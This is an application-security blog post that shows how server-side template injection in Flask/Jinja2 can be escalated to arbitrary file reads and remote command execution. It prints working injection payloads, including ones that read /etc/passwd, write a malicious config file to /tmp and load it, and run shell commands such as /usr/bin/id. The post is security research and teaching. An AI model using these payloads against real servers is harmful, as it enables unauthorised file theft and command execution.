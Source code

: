 title: 'Exploring SSTI in Flask/Jinja2 - Part 2'
publish: True
categories: [application security]

I recently wrote [this article](/2016/03/09/exploring-ssti-flask-jinja2/) about exploring the true impact of Server-Side Template Injection (SSTI) in applications leveraging the Flask/Jinja2 development stack. My initial goal was to find a path to file or operating system access. I was previously unable to do so, but thanks to some feedback on the initial article, I have since been able to achieve that goal. This article is the result of the additional research.

<!-- READMORE -->

### The Nudge

In response to the initial article, [Nicolas G](https://twitter.com/_qll_) published the following tweet.

<blockquote class="twitter-tweet tw-align-center" data-conversation="none" lang="en"><p lang="en" dir="ltr"><a href="https://twitter.com/LaNMaSteR53">@LaNMaSteR53</a> <a href="https://twitter.com/albinowax">@albinowax</a> <a href="https://twitter.com/garethheyes">@garethheyes</a> {{&#39;&#39;.__class__.mro()[1].__subclasses__()[46](&#39;touch /tmp/rce&#39;,shell=True)}} (may be version-dependent)</p>&mdash; Nicolas G (@_qll_) <a href="https://twitter.com/_qll_/status/707714873774448640">March 9, 2016</a></blockquote>
<script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>

If you play with this payload a bit, you'll quickly notice that it doesn't work. There are several good reasons for that, which I'll get to shortly. The key takeaway, however, is that this payload uses several very important introspection utilities that we left out in our previous research: the `__mro__` and `__subclasses__` attributes.

DISCLAIMER: The following explanations are very high level. I have no desire to act like I know more about this stuff than I do. Most of the time when I'm dealing with obscure parts in the guts of a language/framework, I just try stuff to see if it gives me some desired behavior, but I don't always know why the end result is what it is. I am still learning the "why" behind these attributes, but I at least wanted to give you some sort of intro.

The MRO in `__mro__` stands for Method Resolution Order, and is defined [here](https://docs.python.org/release/2.6.4/library/stdtypes.html#class.__mro__) as, "a tuple of classes that are considered when looking for base classes during method resolution." The `__mro__` attribute consists of the object's inheritance map in a tuple consisting of the class, its base, its base's base, and so on up to `object` (if using new-style classes). It is an attribute of each object's metaclass, but is a truly hidden attribute, as Python explicitely leaves it out of `dir` output (see [Objects/object.c at line 1812](http://hg.python.org/cpython/file/3a1db0d2747e/Objects/object.c#l1812)) when conducting introspection.

The `__subclasses__` attribute is defined [here](https://docs.python.org/release/2.6.4/library/stdtypes.html#class.__subclasses__) as a method that "keeps a list of weak references to its immediate subclasses." for each new-style class, and "returns a list of all those references still alive."

Greatly simplified, `__mro__` allows us to go back up the tree of inherited objects in the current Python environment, and `__subclasses__` lets us come back down. So what's the impact on the search of a greater exploit for SSTI in Flask/Jinja2? By starting with a new-type object, e.g. type `str`, we can crawl up the inheritance tree to the root `object` class using `__mro__`, then crawl back down to every new-style object in the Python environment using `__subclasses__`. Yes, this gives us access to every class loaded in the current python environment. So, how do we leverage this new found capability?

### Exploitation

There are a few things to consider here. The Python environment will consist of:

1. Things native to all Flask applications.
2. Things custom to the target application.

We are after a universal exploit, so we want to set up our test environment to be as close to native Flask as possible. The more we add to the application in the way of imported libraries and 3rd party modules, the less universal our attack vector will become. Our previous proof-of-concept application was a good candidate for this, so let's continue to use it.

The cool thing about what we're about to do is that it requires no modification of the target source in order to discover an exploit vector. In the previous article, we had to add some functionality to the vulnerability in order to conduct introspection. This is no longer required.

The first thing we want to do is is select a new-style object to use for accessing the `object` base class. We can simply use `''`, a blank string, object type `str`. Then, we can use the `__mro__` attribute to access the object's inherited classes. Inject `{{ ''.__class__.__mro__ }}` as a payload into the SSTI vulnerability.

[![](/images/posts/ssti_flask_p2_1.png)](/images/posts/ssti_flask_p2_1.png)

We can see the previously discussed tuple being returned to us. Since we want go back to the root `object` class, we'll leverage an index of `2` to select the class type `object`. Now that we're at the root object, we can leverage the `__subclasses__` attribute to dump all of the classes used in the application. Inject `{{ ''.__class__.__mro__[2].__subclasses__() }}` into the SSTI vulnerability.

[![](/images/posts/ssti_flask_p2_2.png)](/images/posts/ssti_flask_p2_2.png)

As you can see, there is a lot of stuff here. In the target application I am using, there are 572 accessible classes. This is where things get tricky, and why the tweeted payload mentioned above doesn't work. Remember, not every application's Python environment will look the same. The goal is to find something useful that leads to file or operating system access. It is probably not all that uncommon to find classes like `subprocess.Popen` used somehere in an application that may not be otherwise exploitable, such as the application affected by the tweeted payload, but from what I've found, nothing like this is available in native Flask. Luckily, there is capability in native Flask that allows us to achieve similar behavior.

If you comb through the output of the previous payload, you should find the `<type 'file'>` object. This is the key to file system access. While `open` is the builtin function for creating file objects, the `file` class is also capable of instantiating file objects, and if we can instantiate a file object, then we can use methods like `read` to extract the contents. To demonstrate this, find the index of the `file` class and inject `{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}` where `40` is the index of the `<type 'file'>` object in my environment.

[![](/images/posts/ssti_flask_p2_3.png)](/images/posts/ssti_flask_p2_3.png)

So, we've now demonstrated that arbirtrary file access is possible via SSTI in Flask/Jinja2, but we're not done yet. My goal in this was Remote Code/Command Execution.

The previous article referenced several methods of the `config` object that load objects into the Flask configuration environment. One such method was the `from_pyfile` method. Below is the code for the `from_pyfile` method of the `Config` class, `flask/config.py`.

```python
    def from_pyfile(self, filename, silent=False):
        """Updates the values in the config from a Python file.  This function
        behaves as if the file was imported as module with the
        :meth:`from_object` function.

        :param filename: the filename of the config.  This can either be an
                         absolute filename or a filename relative to the
                         root path.
        :param silent: set to `True` if you want silent failure for missing
                       files.

        .. versionadded:: 0.7
           `silent` parameter.
        """
        filename = os.path.join(self.root_path, filename)
        d = imp.new_module('config')
        d.__file__ = filename
        try:
            with open(filename) as config_file:
                exec(compile(config_file.read(), filename, 'exec'), d.__dict__)
        except IOError as e:
            if silent and e.errno in (errno.ENOENT, errno.EISDIR):
                return False
            e.strerror = 'Unable to load configuration file (%s)' % e.strerror
            raise
        self.from_object(d)
        return True
```

There's a couple of interesting things here. The most obvious is the use of the `compile` function against the contents of a file whose path is provided as a parameter. This would come in handy if we had a way to write files to the operating system, no? Well, as we just discussed, we do! We can use the aforementioned `file` class to not only read files, but write them to world writeable locations on the target server. Then, we can call the `from_pyfile` method through the SSTI vulnerability to compile the file and execute the contents. This is a 2 staged attack. First, inject something like `{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('<malicious code here>'') }}` into the SSTI vulnerability. Then, invoke the compilation process by injecting `{{ config.from_pyfile('/tmp/owned.cfg') }}`. The code will execute upon compilation. Remote Code Execution achieved.

But let's take it a step even further. While running code is great and all, having to go through a multi-step process for each block of code we want to run is tedious. Let's leverage the `from_pyfile` method for its intended purpose and add something useful to the `config` object. Inject `{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}` into the SSTI vulnerability. This will write a file to the remote server that, when compiled, imports the `check_output` method of the `subprocess` module and sets it to a variable named `RUNCMD`, which, if you recall from the previous article, will get added to the Flask `config` object virtue of it being an attribute with an upper case name.

[![](/images/posts/ssti_flask_p2_4.png)](/images/posts/ssti_flask_p2_4.png)

Inject `{{ config.from_pyfile('/tmp/owned.cfg') }}` to add the new item to the `config` object. Notice the difference between the following before and after images.

[![](/images/posts/ssti_flask_p2_5.png)](/images/posts/ssti_flask_p2_5.png)

[![](/images/posts/ssti_flask_p2_6.png)](/images/posts/ssti_flask_p2_6.png)

Now we can invoke the new configuration item to run commands on the remote operating system. Demonstrate this by injecting `{{ config['RUNCMD']('/usr/bin/id',shell=True) }}` into the SSTI vulnerability.

[![](/images/posts/ssti_flask_p2_7.png)](/images/posts/ssti_flask_p2_7.png)

Remote Command Execution achieved.

### Conclusion

We can now close the book on escaping the Flask/Jinja2 template sandbox and conclude that the impact of SSTI in Flask/Jinja2 environments is substantial. I'd also like to point out that this is largely the result of the way Python works, and not so much the fault of the Flask framework. I'd be willing to bet that all of the Python MVC/MTV web frameworks suffer from similar exploitation vectors. Ultimately, it is up to the developers using these frameworks to properly follow template design best practices and ensure that their applications do not blindly trust user-supplied data.

